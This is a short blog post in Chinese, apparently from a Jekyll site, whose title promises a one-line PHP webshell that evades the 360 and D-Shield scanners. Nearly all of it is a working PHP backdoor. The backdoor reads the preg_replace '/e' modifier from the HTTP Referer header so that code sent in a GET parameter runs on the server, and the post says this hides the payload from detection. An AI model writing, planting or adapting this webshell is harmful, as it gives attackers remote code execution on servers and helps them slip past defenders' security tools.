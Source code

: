 ```yaml
---
layout: post
title:  "过360查杀D盾一句话"
date:   2016-11-12 17:04:52
comments: true
categories: php update
---
```

preg_replace(//) 函数加/e可以执行代码 。 这里的 “e”我使用referer的方式来获取， 绕过了检测

{% highlight php %}
<?php
$server= $\_SERVER['HTTP_REFERER'];
$s[0]='a';
$s[1]=$server;
preg_replace("/t/{$s[1]}",$\_GET["h"],"t");
?>

{% endhighlight %}
